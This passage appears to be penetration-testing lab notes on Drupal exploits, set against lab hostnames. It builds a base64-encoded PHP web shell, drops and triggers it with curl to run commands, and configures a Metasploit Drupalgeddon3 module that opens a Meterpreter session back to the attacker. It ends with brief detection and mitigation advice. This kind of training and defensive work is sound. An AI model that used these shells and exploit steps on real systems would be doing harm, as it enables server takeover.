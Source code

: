 2. **Create Base64-Encoded Web Shell**:

   ```bash
   echo '<?php system($_GET["fe8edbabc5c5c9b7b764504cd22b17af"]); ?>' | base64
   ```

   Result:

   ```
   PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K
   ```

3. **Inject Shell via Modified Script**:

   * Write decoded shell:

     ```bash
     echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
     ```
   * Rerun exploit to upload this shell file.

4. **Trigger the Shell**:

   ```bash
   curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
   ```

   Output:

   ```
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
   ```

#### 🧯 Detection & Mitigation

* **Update Drupal** immediately to:

  * 7.58+
  * 8.3.9 / 8.4.6 / 8.5.1+
* Monitor logs for:

  * `/user/register` requests with suspicious `#` parameters
  * Unexpected files like `hello.txt`, `mrb3n.php`
* Use a **WAF** to block injection attempts.

### 3. **Drupalgeddon3 (CVE-2018-7602)**

* **Type**: Authenticated RCE (node deletion permission required)
* **Affected**: Drupal 7.x and 8.x
* **Exploit**: Form API misuse
* **Tool**: Metasploit

#### 🔧 Exploitation Steps

1. **Login to Drupal Admin**
2. **Get Session Cookie**
3. **Set up Metasploit Module**:

   ```bash
   use exploit/multi/http/drupal_drupageddon3
   set RHOSTS <target_ip>
   set VHOST drupal-acc.inlanefreight.local
   set DRUPAL_SESSION SESS<session_cookie>
   set DRUPAL_NODE 1
   set LHOST <your_ip>
   exploit
   ```
4. **Meterpreter Session Confirmed**:
